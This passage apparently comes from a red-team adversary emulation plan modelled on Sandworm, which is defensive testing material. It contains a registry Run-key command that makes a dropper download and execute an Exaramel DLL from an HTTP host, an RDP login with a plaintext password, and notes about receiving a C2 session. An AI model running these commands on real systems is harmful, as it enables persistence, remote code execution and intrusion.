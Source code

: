 This will execute a Exaramel-Windows dropper on fherbert login.

```bash
# Sandworm associated malware such as Exaramel-Windows and Olympic Destroyer have modified the registry.

# Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.
```
```bash
reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll"
```

Terminate the PsExec.py session. Keep your terminal open.

```bash
exit
```

You will now RDP into gammu, role-playing as the legitimate fherbert user.

```bash
xfreerdp +clipboard /u:WORKGROUP\\fherbert /p:"Whg42WbhhCE17FEzrqeJ" /v:10.0.1.7
```

:warning: Keep the gammu-RDP window open.

On login, the fherbert registry persistence will execute the exaramel-windows-dropper (wsmprovav.exe).

The dropper will download Exaramel-Windows over HTTP. The dropper then executes the Exaramel-Windows (wsmprovav.dll) using rundll32.exe.

[Source Code](/Resources/Exaramel-Windows-Dropper/main.cpp)

:warning: Switch to your control server terminal; you should have a new C2 session from Exaramel-Windows.

### :microscope: Cited Intelligence

* https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html

* https://securelist.com/be2-custom-plugins-router-abuse-and-target-profiles/67353/

* https://blog.talosintelligence.com/2018/02/olympic-destroyer.html

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

### Step 16 - Windows Discovery

:microphone: `voice track`

Using the Exaramel-Windows C2 channel, Sandworm obtains the current username, OS version, performs a recursive file listing, and queries for RDP connections.

### :biohazard: Procedures
